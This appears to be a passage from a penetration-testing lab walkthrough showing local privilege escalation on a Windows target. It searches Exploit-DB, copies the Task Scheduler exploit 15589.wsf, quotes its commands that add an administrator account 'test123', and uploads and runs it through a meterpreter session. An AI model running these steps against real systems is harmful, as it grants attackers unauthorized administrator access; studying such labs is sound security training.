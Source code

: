 According to the Exploit Database, this machine is vulnerable to a [Task Scheduler Privilege Escalation](http://www.exploit-db.com/exploits/15589/) exploit.

```
kali@kali:~$ searchsploit ""Privilege Escalation"" | uniq | grep -v metasploit | grep -i ""windows ""
Fortinet FortiClient 5.2.3 (Windows 10 x64 Creators) - Local Privilege E | exploits/windows_x86-64/local/45149.cpp
Fortinet FortiClient 5.2.3 (Windows 10 x64 Post-Anniversary) - Local Pri | exploits/windows_x86-64/local/41722.c
Fortinet FortiClient 5.2.3 (Windows 10 x64 Pre-Anniversary) - Local Priv | exploits/windows_x86-64/local/41721.c
Fortinet FortiClient 5.2.3 (Windows 10 x86) - Local Privilege Escalation | exploits/windows_x86/local/41705.cpp

...

Microsoft Windows - Task Scheduler Privilege Escalation                  | exploits/windows/local/15589.wsf

...

Windows - NtUserSetWindowFNID Win32k User Callback Privilege Escalation  | exploits/windows/local/47134.rb
Windows - Shell COM Server Registrar Local Privilege Escalation          | exploits/windows/local/47880.cc
XAMPP for Windows 1.6.3a - Local Privilege Escalation                    | exploits/windows/local/4325.php
```

### Task Scheduler Privilege Escalation Exploit

Let's copy the exploit file to a directory on our attack machine.

```
kali@kali:~$ file /usr/share/exploitdb/exploits/windows/local/15589.wsf
/usr/share/exploitdb/exploits/windows/local/15589.wsf: HTML document, ASCII text, with CRLF line terminators

kali@kali:~$ cp /usr/share/exploitdb/exploits/windows/local/15589.wsf .
```

This exploit creates a new user (`test123`) with a matching password (`test123`) and adds the user to the `Administrators` group:

```
a.WriteLine (""net user /add test123 test123"")
a.WriteLine (""net localgroup administrators /add test123"")
```

Let's upload the exploit using our meterpreter session and then execute it on the target.

```
meterpreter > ls
Listing: C:\wamp\www
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  161   fil   2011-11-08 15:58:11 +0000  .htaccess
100666/rw-rw-rw-  45    fil   2011-11-08 15:53:09 +0000  .htpasswd
100666/rw-rw-rw-  76    fil   2011-11-08 15:45:29 +0000  index.php
100666/rw-rw-rw-  1113  fil   2020-12-27 18:08:12 +0000  pwn.php

meterpreter > upload 15589.wsf /Users/apache/Desktop/
[*] uploading  : 15589.wsf -> /Users/apache/Desktop/
[*] uploaded   : 15589.wsf -> /Users/apache/Desktop/\15589.wsf
meterpreter > execute -f cscript -a C:/Users/apache/Desktop/15589.wsf
```